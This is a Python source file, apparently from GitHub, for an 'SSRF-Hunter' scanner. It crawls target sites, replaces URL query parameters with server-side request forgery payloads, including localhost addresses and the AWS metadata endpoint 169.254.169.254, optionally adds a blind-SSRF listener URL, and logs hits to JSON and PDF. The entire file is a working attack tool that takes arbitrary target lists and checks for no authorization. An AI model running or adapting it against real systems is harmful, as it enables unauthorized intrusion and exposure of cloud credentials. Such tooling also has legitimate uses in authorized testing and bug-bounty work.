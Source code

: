 import requests
from bs4 import BeautifulSoup
import urllib.parse
import argparse
import tldextract
import re
import json
import time
from fpdf import FPDF

# SSRF payloads
SSRF_PAYLOADS = [
    "http://127.0.0.1",
    "http://localhost",
    "http://169.254.169.254",  # AWS metadata
    "http://0.0.0.0",
]

# Global for blind SSRF listener
BLIND_SSRF = ""

def normalize_url(url):
    if not url.startswith(("http://", "https://")):
        return "https://" + url
    return url

def get_forms(url):
    """Extract all forms from a URL"""
    try:
        res = requests.get(url, timeout=10)
        soup = BeautifulSoup(res.text, "html.parser")
        return soup.find_all("form")
    except:
        return []

def extract_urls_from_html(html, base_url):
    """Extract URLs from href/src in HTML"""
    soup = BeautifulSoup(html, "html.parser")
    urls = set()
    for tag in soup.find_all(["a", "script", "img", "link"]):
        for attr in ["href", "src"]:
            link = tag.get(attr)
            if link:
                full_url = urllib.parse.urljoin(base_url, link)
                urls.add(full_url)
    return urls

def get_params_from_url(url):
    """Extract parameters from a URL"""
    parsed = urllib.parse.urlparse(url)
    return urllib.parse.parse_qs(parsed.query)

def inject_ssrf(url, payload):
    """Inject SSRF payload into URL parameters"""
    parsed = urllib.parse.urlparse(url)
    query = urllib.parse.parse_qs(parsed.query)
    # Inject payload into all params
    new_query = {k: [payload] for k in query.keys()}
    encoded = urllib.parse.urlencode(new_query, doseq=True)
    new_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{encoded}"
    return new_url

def test_url(url, verbose=False):
    """Test a URL for SSRF injection points"""
    result = []
    try:
        res = requests.get(url, timeout=10)
        if res.status_code != 200:
            if verbose:
                print(f"[-] Skipping {url} - Status code: {res.status_code}")
            return result

        params = get_params_from_url(url)
        if not params:
            if verbose:
                print(f"[-] No parameters found in URL: {url}")
            return result

        for param in params:
            for payload in SSRF_PAYLOADS + ([BLIND_SSRF] if BLIND_SSRF else []):
                test_url_ = inject_ssrf(url, payload)
                try:
                    test_res = requests.get(test_url_, timeout=10)
                    if verbose:
                        print(f"[*] Tested: {test_url_} => {test_res.status_code}")

                    # If payload is found in response text or special blind SSRF is enabled
                    if (test_res.status_code in [200, 403, 500]) and (payload in test_res.text or payload == BLIND_SSRF):
                        result.append({
                            "param": param,
                            "payload": payload,
                            "url": test_url_,
                            "status": test_res.status_code,
                        })
                except Exception as e:
                    if verbose:
                        print(f"[-] Request failed for {test_url_}: {e}")
                    continue
    except Exception as e:
        if verbose:
            print(f"[-] Error testing URL {url}: {e}")
        return result
    return result

def save_pdf_snapshot(url, filename):
    """Save a simple PDF snapshot with the URL as content"""
    pdf = FPDF()
    pdf.add_page()
    pdf.set_font("Arial", size=12)
    pdf.multi_cell(0, 10, f"Snapshot of URL:\n{url}")
    pdf.output(filename)

def scan_target(target_url, verbose=False):
    """Full SSRF scan on a target URL"""
    print(f"[+] Scanning: {target_url}")
    findings = []

    try:
        res = requests.get(target_url, timeout=10)
        urls = extract_urls_from_html(res.text, target_url)
        urls.add(target_url)  # include the main URL

        for url in urls:
            if "=" in url:
                normalized_url = normalize_url(url)
                result = test_url(normalized_url, verbose=verbose)
                if result:
                    findings.extend(result)
                    for finding in result:
                        print(f"[SSRF FOUND] {finding['url']} (param: {finding['param']}, payload: {finding['payload']}, status: {finding['status']})")
                        # Save PDF snapshot per finding
                        safe_name = re.sub(r'[^\w\-_.]', '_', finding['param'])
                        pdf_filename = f"ssrf_snapshot_{safe_name}.pdf"
                        save_pdf_snapshot(finding['url'], pdf_filename)
                        if verbose:
                            print(f"[+] PDF snapshot saved: {pdf_filename}")

        if not findings:
            print("[*] No SSRF vulnerabilities found on this target.")
        else:
            print(f"[+] SSRF scan completed with {len(findings)} finding(s).")

    except Exception as e:
        print(f"[-] Error scanning {target_url}: {e}")

    return findings

def main():
    parser = argparse.ArgumentParser(description="SSRF-Hunter - Advanced SSRF Scanner")
    parser.add_argument("--url", help="Target URL to scan")
    parser.add_argument("--list", help="File with list of target domains or URLs")
    parser.add_argument("--blind", help="Blind SSRF listener URL (Webhook.site, Interactsh)")
    parser.add_argument("--verbose", action="store_true", help="Verbose output")
    args = parser.parse_args()

    global BLIND_SSRF
    if args.blind:
        BLIND_SSRF = args.blind

    targets = []

    if args.url:
        targets.append(normalize_url(args.url))

    if args.list:
        with open(args.list, "r") as f:
            targets.extend([normalize_url(line.strip()) for line in f if line.strip()])

    all_findings = {}
    for target in targets:
        findings = scan_target(target, verbose=args.verbose)
        all_findings[target] = findings
        time.sleep(1)  # be polite with servers

    with open("ssrf_results.json", "w") as f:
        json.dump(all_findings, f, indent=4)

    print("[+] Scan complete. Results saved to ssrf_results.json")

if __name__ == "__main__":
    main()
